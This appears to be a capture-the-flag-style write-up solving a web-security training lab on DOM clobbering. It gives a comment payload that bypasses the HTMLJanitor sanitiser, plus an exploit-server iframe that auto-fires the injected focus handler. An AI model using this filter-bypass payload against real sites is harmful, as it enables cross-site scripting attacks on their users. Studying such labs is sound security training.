 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529003419.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529004041.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529004114.png)

### Clobbering DOM attributes to bypass HTML filters
```bash

# This lab uses the HTMLJanitor library, which is vulnerable to DOM clobbering. To solve this lab, construct a vector that bypasses the filter and uses DOM clobbering to inject a vector that calls the print() function. You may need to use the exploit server in order to make your vector auto-execute in the victim's browser.

Go to: "View post"
Comment:

<form id=x tabindex=0 onfocus=print()><input id=attributes>


Name:

name

Email:

email@email.com

Click "Back to blog"
Copy the end-point

https://acd41fd91ea183fdc01707f4006100ea.web-security-academy.net/post?postId=7

Go to: "Go to exploit server"
Body:

<iframe src=https://acd41fd91ea183fdc01707f4006100ea.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529010113.png)

#hacking
